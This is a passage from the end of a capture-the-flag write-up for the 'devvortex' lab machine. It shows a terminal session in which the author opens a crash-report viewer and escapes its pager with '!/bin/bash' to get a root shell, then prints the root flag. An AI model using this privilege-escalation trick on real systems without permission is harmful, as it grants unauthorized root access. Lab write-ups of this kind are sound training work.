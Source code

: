 ```bash

What would you like to do? Your options are:
  Y: Yes
  N: No
  C: Cancel
Please choose (Y/N/C):
What would you like to do? Your options are:
  Y: Yes
  N: No
  C: Cancel
Please choose (Y/N/C): y
y^J
....................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (736.5 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):
What would you like to do? Your options are:
  S: Send report (736.5 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
V^J
WARNING: terminal is not fully functional
-  (press RETURN)
..........................
:!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@devvortex:
```
We are `root`now.
***
Root Flag is: 267d54cb5bc85bf5cceeca2d27d790af
***
![](/assets/images/Screenshot from 2024-08-07 15-04-00.png)

